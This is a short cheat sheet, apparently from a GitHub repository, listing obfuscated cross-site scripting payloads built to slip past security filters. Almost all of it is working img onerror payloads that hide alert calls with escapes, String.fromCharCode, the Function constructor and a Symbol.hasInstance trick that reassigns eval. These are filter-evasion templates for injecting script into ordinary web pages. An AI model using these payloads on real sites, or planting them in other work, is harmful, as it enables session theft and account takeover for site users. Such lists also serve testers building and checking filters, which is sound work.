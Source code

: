 # Obfuscated XSS

The art of hiding Cross-Site Scripting (XSS) payloads to bypass security filters.

Goodbye!

```
<img src onerror=alert`1`>
```

----------

### Basic without Eval

```
<img src onerror="Function`al\x65rt\x281\x29`()">
```

### filter.constructor

```
<img src onerror="[].filter.constructor('('+('al'+'ert')+')(1)')()">
<img src onerror="[].filter.constructor(''+String.fromCharCode(97,108,101,114,116)+'(1)')()">
<img src onerror="[].filter.constructor('\u0061\u006c\u0065\u0072\u0074(1)')()">
<img src onerror="[].filter.constructor('\x61\x6c\x65\x72\x74(1)')()">
```

### Indirect function call obfuscation with Symbol.hasInstance

```
<img src onerror="([][Symbol.hasInstance]=eval,[]instanceof{[Symbol.hasInstance](){\u0061\u006c\u0065\u0072\u0074(0)}})">
```
